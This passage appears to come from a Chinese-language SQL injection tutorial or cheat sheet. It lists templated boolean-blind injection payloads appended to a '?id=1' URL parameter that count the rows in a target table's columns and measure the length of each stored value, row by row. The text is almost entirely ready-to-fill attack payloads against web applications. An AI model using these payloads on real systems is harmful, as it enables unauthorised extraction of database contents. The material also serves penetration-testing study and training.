    1. 第一个表

      ```mysql
      第一个字段里的数据个数 : 
      	?id=1 and (select count(第一个字段) from 第一个表) = 个数
      ```

      ```mysql
      第二个字段里面的数据个数 : 
      	?id=1 and (select count(第二个字段) from 第一个表) = 个数
      ```

   2. 第二个表

      ```mysql
      第一个字段里面的数据个数 : 
      	?id=1 and (select count(第一个字段) from 第二个表) = 个数
      ```

      ```mysql
      第二个字段里面的数据个数 : 
      	?id=1 and (select count(第二个字段) from 第二个表) = 个数
      ```

2. 数据长度

   1. 第一个表

      1. 第一个字段

         ```mysql
         第一个数据长度 : 
         	?id=1 and (select length(第一个字段) from 第一个表 limit 0,1) = 长度
         ```

         ```mysql
         第二个数据长度 : 
         	?id=1 and (select length(第一个字段) from 第一个表 limit 1,1) = 长度
         ```

      2. 第二个字段

         ```mysql
         第一个数据长度 : 
         	?id=1 and (select length(第二个字段) from 第一个表 limit 0,1) = 长度
         ```

         ```mysql
         第二个数据长度 : 
         	?id=1 and (select length(第二个字段) from 第一个表 limit 1,1) = 长度
         ```

   2. 第二个表

      1. 第一个字段

         ```mysql
         第一个数据长度 : 
         	?id=1 and (select length(第一个字段) from 第二个表 limit 0,1) = 长度
         ```

